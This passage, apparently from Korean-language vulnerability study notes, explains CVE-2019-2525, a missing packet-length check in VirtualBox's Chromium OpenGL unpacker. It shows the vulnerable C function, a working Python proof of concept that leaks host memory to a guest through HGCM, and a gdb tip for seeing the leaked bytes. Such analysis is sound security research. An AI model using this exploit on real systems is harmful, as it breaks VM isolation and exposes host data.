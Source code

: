 memory leak을 할 수 있다.

```c
void crUnpackExtendGetAttribLocation(void) //packet_length 범위 확인 X
{
 int packet_length = READ_DATA(0, int);
 GLuint program = READ_DATA(8, GLuint);
 const char *name = DATA_POINTER(12, const char);
 SET_RETURN_PTR(packet_length-16); //packet_length-16의 위치의 데이터 16바이트를
Guest로 보냄 packet_length를 확인하는 부분이 없어 memory leak 가능 (CVE 2019-2525)
 SET_WRITEBACK_PTR(packet_length-8);
 cr_unpackDispatch.GetAttribLocation(program, name);
}
```

SET_RETURN_PTR(packet_length-16)는 packet_length - 16에 있는 값을 복사해서 주라는 의미이다.

여기 함수를 보면 패킷 길이에 대한 검사가 없어서 사용자가 입력한 데이터 길이보다 더 뒤, 또는 더 앞에 있는 값을 읽을 수 있다. 

packet_length 체크 안하는 걸로 뭘 할 수 있냐면

memory leak을 할 수 있다.

여기 이런 poc 코드가 있다.

```python
import sys, os
from struct import pack, unpack
print os.path.dirname(__file__)
sys.path.append("./3dpwn/lib")
from chromium import *

def leak_msg(offset):
    msg = ( pack("<III", CR_MESSAGE_OPCODES, 0x00, 1)
            + "\x00\x00\x00" + chr(CR_EXTEND_OPCODE)
            + pack("<I", offset)
            + pack("<I", CR_GETATTRIBLOCATION_EXTEND_OPCODE)
            + pack("<I", 0x00) )
    return msg

if __name__ == "__main__":
    client = hgcm_connect("VBoxSharedCrOpenGL")
    set_version(client)        

    print " [0] trigger"
    address = crmsg(client, leak_msg(0x00))
    print address.encode("hex")
# EOF
```

> SET_RETURN_PTR(packet_length-16);
> b* crUnpackExtendGetAttribLocation+49

여기다가 break를 걸어놓고 실행시켜서 

rsi를 보면 복사될 값이 보인다. 

